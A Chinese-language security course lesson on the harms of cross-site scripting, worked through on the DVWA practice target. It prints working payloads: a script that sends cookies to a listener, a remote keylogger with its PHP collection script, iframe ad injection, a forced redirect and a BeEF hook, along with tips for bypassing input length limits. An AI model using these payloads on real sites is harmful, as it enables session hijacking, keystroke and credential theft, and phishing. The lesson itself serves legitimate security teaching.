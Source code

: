 
                            
                            因收到Google相关通知，网站将会择期关闭。相关通知内容
                            
                            
                            22 XSS（中）：跨站脚本攻击的危害性
                            你好，我是王昊天。

在上一节课程中，我们学习了什么是XSS攻击，并且介绍了XSS攻击的不同种类。在攻击示例的代码中，我们仅仅是让网页弹出一个警告框，看上去XSS攻击并没有什么作用，但实际上，它的危害性是比较大的。你会好奇XSS攻击会造成哪些危害吗？

这节课，让我们一起来深入了解一下。

XSS攻击的危害

XSS攻击的危害主要包括四种类型，我已经将它们整理在下图中，它们分别是盗取cookie、按键记录和钓鱼、广告植入以及欺骗跳转。



首先我们来学习具有代表性的XSS攻击利用，盗取cookie，看看攻击者是如何用XSS攻击实现对cookie的窃取。

盗取cookie

cookie在英文中的意思为甜品、饼干，不过这里盗取cookie可不是偷饼干的意思哦。在HTTP请求中，cookie代表着登录信息，我们在Web应用登录成功后，服务器端会生成一个cookie。然后服务器端会将这个生成的cookie发送给我们，供我们之后访问的时候使用。

如果攻击者拿到cookie信息了，那他就可以实现登录我们的账号，这是非常危险的，所以我们平时需要保护好我们的cookie信息。

在了解完cookie是什么之后，让我们用一个示例，一起看看XSS攻击是如何获得cookie信息的。

这是一个DVWA靶场，我们在登陆后选择DOM型XSS，获得如下页面：



在上一讲的实战部分中，我们成功的对这个页面进行了XSS注入攻击，其中使用的payload为：

<script>alert(1)</script>


在之前的学习中，我们知道它可以让页面弹出一个警告框，但如果我们将这个payload改为如下：

<script>var pic=document.createElement("img");pic.src="http://127.0.0.1:2222/getCookie?"+escape(document.cookie)</script>


这个payload会调用JavaScript创建一个Element对象，之后将这个对象的src设置为我们监听的地址端口，向这个地址用GET方式上传参数document.cookie，这样我们就能窃取到用户的cookie啦。



可以看到，我们已经收到这个GET请求了，它的cookie值也被我们接收到了。

到这里，你已经学习了用XSS攻击来盗取cookie的用法。接下来，让我们来学习如何用XSS攻击实现按键记录以及钓鱼。

按键记录和钓鱼

首先我们来看看如何实现按键记录。

我们仍然选择DVWA的XSS(DOM)靶场做测试，只需要更换payload即可，将payload设置为：

<script src=http://192.168.3.193/keylogger.js></script>


这段代码可以去调用远程地址中的JavaScript文件，使得keylogger.js中的代码被执行。这里的keylogger.js的内容为：

document.onkeypress = function(evt) {
    evt = evt || window.event;
    key = String.fromCharCode(evt.charCode);
    if(key) {
        var http = new XMLHttpRequest();
        var param = encodeURI(key);
        http.open("POST","http://192.168.3.193/keylogger.php",true);
        http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
        http.send("key="+param);
    }
}


它创建了一个监听按键的事件，这个事件可以记录用户在当前页面按下的每一个键，并将接收到的按键通过POST方式上传到攻击者用来存储按键记录的服务器上。其中keylogger.php的代码为：

<?php
  $key=$_POST['key'];
  $logfile="keylog.txt";
  $fp = fopen($logfile,"a");
  fwrite($fp,$key);
  fclose($fp);
?>


它可以将接收到的key记录到keylog.txt文件中，这样就能实现按键记录的功能了。

我们胡乱的在被攻击的页面按下一些键，发现我们用来记录按键的服务器已经获取到了按键内容，并将它们存储在keylog.txt中。



我们还可以将这个按键记录做一下加工，使得用户可以输入一些敏感信息例如账号、密码等信息。我们可以用JavaScript创建出一个伪造的登陆框，这样用户很可能会上当，在这里输入自己的用户名和密码，我们可以利用之前的按键记录获取到这些信息。这种行为就是钓鱼攻击，因为它本质上和钓鱼非常类似，在钓鱼中我们就会利用鱼饵，将锋利的鱼钩伪装成美味的食物，这样就能骗得鱼儿上钩。

相信到这里你已经明白了如何用XSS攻击来实现按键记录以及钓鱼。接下来，让我们学习用XSS实现广告植入的方式吧。

广告植入

想要做广告植入，那我们需要用存储型XSS注入，这样就可以使得所有访问受攻击页面的用户都会看到广告。

这里我们选择用DVWA的存储型XSS作为示例，如下图，这里需要输入一个姓名和消息。



经过测试后，我们发现这个Message框内会受到XSS攻击，于是直接可以将负载改为：

<script>document.writeln("<iframe scrolling='no' frameborder='0' marginheight='0' marginwidth='0' width='1000' height='2000' allowTransparency src=https://time.geekbang.org/course/detail/100055001-283034></iframe>");</script>


这段恶意负载可以在当前页面以行的方式输出src对应的内容，这样我们把广告的地址设置为src即可。可以看到广告已经弹出，这就是用XSS实现广告植入的方法。

在测试的过程中，你可能会发现我们无法输入完整的负载，这是因为DVWA对这个输入框有长度限制，我们有两种方法可以绕过这一输入限制。

第一种，我们先随意输入符合长度要求的Message内容，之后用BurpSuite去进行拦截修改，将Message的内容修改为我们想要设置的恶意负载，这样就可以绕过输入长度限制。

第二种，我们可以去修改页面的限制代码，首先在Message输入框内右键，选择检查，这样关于它的代码就会高亮显示。



在图中，我们可以看到它限制了最多输入50个字符，我们可以将这个数字改为1000或者更大，来满足我们对负载长度的要求。修改过后，我们就可以任意输入想要的负载啦。这里也是在前端进行的修改。



下面，让我们继续学习XSS的危害类型，看看如何用XSS去实现欺骗跳转。

欺骗跳转

有的网页希望增加访问量，或者吸引用户访问，那么就可能会用XSS攻击来实现这一目的。下面我们继续以DVWA靶场中的存储型XSS作为示例。

为了实现欺骗跳转，我们需要将负载设置为：

<script>window.location.href=“跳转的目的地址”;</script>


这段负载也是JavaScript代码，它可以使得当前页面跳转到设置的目的地址，这就是跳转产生的原因。注意，这里同样是需要绕过输入长度的限制的哦。

这样，当我们访问被攻击的页面时，页面会自动跳转到攻击者设置的地址中，如果攻击者将这个地址伪造为被攻击的页面，那么很容易迷惑访问用户，使得用户认为这就是被攻击的页面，但事实上，用户已经落入到攻击者的圈套之中了。

这就是用XSS实现欺骗跳转的方法。到这里，你已经学完了常见的XSS攻击利用方法，事实上，这就是一个任意JavaScript命令执行漏洞，我们只要更换不同的JavaScript语句，就可以实现这些攻击行为。

上述内容都是我们对XSS攻击的手动利用，接下来，让我们来学习一款XSS攻击自动利用神器——BeEF。

BeEF的使用

我们都知道Beef是牛肉的意思，这款名为BeEF的软件也是非常牛的。我们利用它可以进行各种各样的攻击操作，并且不需要我们手动进行一些负载的设计，下面让我们一起来学习它吧。

首先我们要来安装这款软件，我们可以在kali虚拟机中使用 sudo apt install beef-xss 进行BeEF的安装，如果失败，那么我们运行 sudo apt-get update 进行apt的更新，然后重新安装即可。

安装完成之后，我们就可以用命令 sudo beef-xss 来打开这个软件，可以看到它会自动弹出一个Web页面，这就是这个软件的用户界面。



我们选择DVWA的存储型XSS攻击来做测试，让你可以更好地理解这款工具。

那么在利用BeEF前，我们首先需要进行XSS攻击。



和之前我们手动攻击一样，需要在Message框内输入恶意负载，由于我们BeEF工具所在的服务器地址为192.168.3.101，所以我们将负载设置为：

<script src="http://192.168.3.101:3000/hook.js"></script>


这样，每当这个页面被访问时，都会触发我们注入的JavaScript代码，使得页面向我们的恶意服务器请求hook.js文件，其中你可以简单认为hook.js文件是BeEF的一个接口，之后我们在BeEF调用的命令都是通过这个接口来实现的。

完成了接口的设置之后，我们在BeEF的页面，可以看到BeEF中的Hooked Browsers一栏已经显示出被攻击的目标。



这里192.168.3.124是我搭建的DVWA靶场的地址，代表的是被攻击服务器IP，而192.168.3.102代表的是访问被攻击服务器的用户机器的IP。我们点击Current Browser就可以进行我们想要的攻击行为啦。



首先我们选中Commands这一栏，然后根据描述选择其中我们想要发起的攻击行为，例如：GET Cookie。



可以看到我们已经获取到了cookie信息。这比我们手动去获取cookie简单很多。

这就是BeEF的用法介绍，当然它具有很多有趣的攻击功能，下面我再介绍它的一个功能，那就是改变页面内容。



我们可以在Deface Content中对内容进行设置，然后点击执行按钮，可以发现我们的DVWA靶场已经变为了刚刚设计的内容。



其实BeEF的非常强大，它具有几百个不同的攻击命令，你可以一一尝试去把玩它们。

总结

在这节课程中，我们可以感受到XSS攻击的可怕之处，并且清楚了它的危害性。

首先我们学习了对XSS攻击的手动利用，包括了盗取cookie、按键记录和钓鱼、广告植入以及欺骗跳转这些不同的攻击手段。但事实上，我们都是利用的JavaScript代码注入，页面中一切JavaScript代码可以实现的功能，我们都能实现。所以实现XSS攻击的能力，和JavaScript的掌握程度息息相关。

然后，我们学习了XSS攻击神器——BeEF，利用它我们不需要再亲自构造JavaScript代码，而是利用设计好的代码直接发起我们想要的攻击行为，这给我们带来了极大的便利。

思考题

除了这节课中提到的XSS攻击种类，你还能想到别的攻击种类吗？

欢迎在评论区留下你的思考。如果觉得今天的内容对你有所帮助的话，也欢迎你把课程分享给其他同事或朋友，我们共同学习进步！

                        
                        
                            
